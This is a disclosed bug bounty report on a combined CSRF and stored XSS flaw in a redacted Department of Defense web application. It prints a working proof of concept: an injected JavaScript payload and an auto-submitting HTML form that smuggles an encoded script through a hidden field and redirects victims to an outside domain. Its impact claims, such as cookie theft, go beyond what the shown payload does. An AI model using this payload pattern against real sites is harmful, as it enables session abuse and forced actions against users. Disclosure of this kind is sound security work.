 # CSRF to XSS

## Report Details
- **Report ID**: 2736979
- **URL**: https://hackerone.com/reports/2736979
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-09-24T20:50:31.427Z
- **Disclosed**: 2024-12-18T19:43:14.310Z

## Reporter
- **Username**: k0x
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Cross-Site Scripting (XSS) and Cross-Site Request Forgery (CSRF) are two distinct attack vectors, but when combined, they can significantly increase the impact of an attack.

- **XSS (Cross-Site Scripting):** In an XSS attack, an attacker injects malicious scripts (typically JavaScript) into a trusted website. These scripts are then executed in the victim's browser without their knowledge. This allows attackers to steal sensitive data like cookies, session tokens, or perform actions on behalf of the user.
- **CSRF (Cross-Site Request Forgery):** CSRF tricks a victim into performing unwanted actions on a web application where they are authenticated. When combined with XSS, attackers can bypass CSRF defenses by using the victim's active session to perform actions like changing account details, transferring funds, or modifying settings.

## Impact

- **Stealing Authentication Tokens:** XSS can steal session cookies, making it easier to forge authenticated requests via CSRF.
- **Automating Malicious Actions:** XSS can directly create malicious requests, such as submitting forms or performing transactions, bypassing CSRF protections and leading to unauthorized actions on behalf of the victim.
- **Higher Attack Success Rate:** When XSS and CSRF are combined, even CSRF tokens can be stolen and used, making it very hard for applications to prevent such attacks.

## System Host(s)
www.█████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
**Step 1:** Malicious JavaScript Payload

The following JavaScript code represents a payload that an attacker could use to steal cookies:

```javascript
video");
alert('Hacked by k0x');
setTimeout(()=>location.href='████',5000);//
```

**Step 2:**  Malicious Website for CSRF

An attacker crafts a malicious Website to exploit the CSRF vulnerability. When a user clicks the link, it triggers a request to the vulnerable application (It could be redirected without a click):

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://www.████████/alerts" method="POST">
      <input type="hidden" name="csrf&#95;token" value="75ce3b80fbeb820dc230d2cf674283a5" />
      <input type="hidden" name="alerts&#95;invite&#95;id" value="" />
      <input type="hidden" name="hash" value="" />
      <input type="hidden" name="search&#95;type" value="content" />
      <input type="hidden" name="search" value="kaos" />
      <input type="hidden" name="phrase" value="0" />
      <input type="hidden" name="phrase" value="1" />
      <input type="hidden" name="features&#95;name" value="" />
      <input type="hidden" name="features&#95;input" value="" />
      <input type="hidden" name="feed&#95;channels&#95;name" value="" />
      <input type="hidden" name="feed&#95;channels&#95;input" value="" />
      <input type="hidden" name="radius&#95;name" value="" />
      <input type="hidden" name="radius&#95;input" value="" />
      <input type="hidden" name="radius&#95;range" value="10" />
      <input type="hidden" name="state&#95;name" value="&#45;1" />
      <input type="hidden" name="state&#95;input" value="" />
      <input type="hidden" name="hometown&#95;name" value="" />
      <input type="hidden" name="hometown&#95;input" value="" />
      <input type="hidden" name="personnel&#95;name" value="" />
      <input type="hidden" name="personnel&#95;input" value="" />
      <input type="hidden" name="publication&#95;name" value="" />
      <input type="hidden" name="publication&#95;input" value="" />
      <input type="hidden" name="series&#95;name" value="&#45;1" />
      <input type="hidden" name="series&#95;input" value="" />
      <input type="hidden" name="tags&#95;name" value="" />
      <input type="hidden" name="tags&#95;input" value="" />
      <input type="hidden" name="unit&#95;name" value="" />
      <input type="hidden" name="unit&#95;input" value="" />
      <input type="hidden" name="source&#91;&#93;" value="video&quot;&#41;&#59;&#13;&#10;alert&#40;&apos;Hacked&#32;by&#32;k0x&apos;&#41;&#59;&#13;&#10;setTimeout&#40;&#40;&#41;&#61;&gt;location&#46;href&#61;&apos;https&#58;&#47;&#47;k0x&#46;xyz&apos;&#44;5000&#41;&#59;&#47;&#47;" />
      <input type="hidden" name="freq" value="hourly" />
      <input type="hidden" name="delivery&#95;method" value="email" />
      <input type="hidden" name="member&#95;email&#95;id" value="1223198" />
      <input type="hidden" name="submit" value="CREATE&#32;NEWSWIRE" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**Step 3:** Recreate Attack Flow

1. **User Logs In:** The victim logs into the vulnerable application, maintaining an active session.
2. **Clicking the Malicious Link:** The victim receives a message or email with the malicious link. Upon clicking, they are redirected to the attacker's controlled site.
3. **CSRF Exploitation:** The malicious link triggers a CSRF attack that executes the injected JavaScript payload, which may steal cookies or perform unauthorized actions.
4. **Payload Execution:** The attacker can use the stolen cookies or perform actions such as changing account settings, transferring funds, etc.

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
